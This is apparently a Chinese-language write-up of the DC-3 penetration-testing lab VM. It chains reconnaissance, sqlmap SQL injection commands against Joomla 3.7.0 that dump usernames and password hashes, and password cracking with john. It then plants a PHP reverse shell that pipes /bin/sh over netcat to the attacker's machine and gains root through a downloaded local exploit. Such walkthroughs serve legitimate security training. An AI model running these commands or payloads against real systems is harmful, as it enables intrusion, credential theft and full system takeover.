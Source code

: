 ```yaml
---
layout: post
title: DC-3
subtitle: DC-3
date: 2025-07-09 08:57
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

### 信息搜集

主机发现：`192.168.163.131`

![image.png300](https://img.ghostliner.top/pXvsQf.png)

端口扫描

![image.png300](https://img.ghostliner.top/K2a1g5.png)

访问网站 http://192.168.163.131/ 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 http://192.168.163.131/administrator/index.php

`whatweb` 发现网站框架 `Joomla`

![image.png300](https://img.ghostliner.top/4qww6f.png)

`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`
### 渗透测试

搜索版本漏洞

![image.png300](https://img.ghostliner.top/JUEDGl.png)
#### 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image.png300](https://img.ghostliner.top/IgBLKX.png)

使用该命令：
```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库
![image.png300](https://img.ghostliner.top/RNZXpV.png)

```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

|                                                     |                                                     |
| --------------------------------------------------- | --------------------------------------------------- |
| ![image.png](https://img.ghostliner.top/mD6eR2.png) | ![image.png](https://img.ghostliner.top/ajK0Ne.png) |

获取到用户名、密码

![image.png](https://img.ghostliner.top/SDg7ss.png)


Joomla 使用 `#__` 作为数据库表名的**动态前缀占位符**，若安装时前缀设为 `jos_`，则实际表名为 `jos_users` 

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```
#### 反弹shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传php文件，上传反弹shell脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```

```mermaid
graph TD
    A[攻击者输入命令] --> B[Netcat 4444端口]
    B --> C["/tmp/f 管道"]
    C --> D["cat 读取命令"]
    D --> E["/bin/sh 执行命令"]
    E --> F[命令结果]
    F --> B[Netcat发回攻击者]
```

根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`

![image.png](https://img.ghostliner.top/LM3Bjc.png)

访问成功，连接到kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```
#### 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件
![image.png](https://img.ghostliner.top/EOXJpA.png)

`tar -xvf exploit.tar` 解压文件，cd进目录，执行以下命令，即可获得root权限

```shell
./compile.sh
./doubleput
```

![image.png](https://img.ghostliner.top/MIXHhV.png)
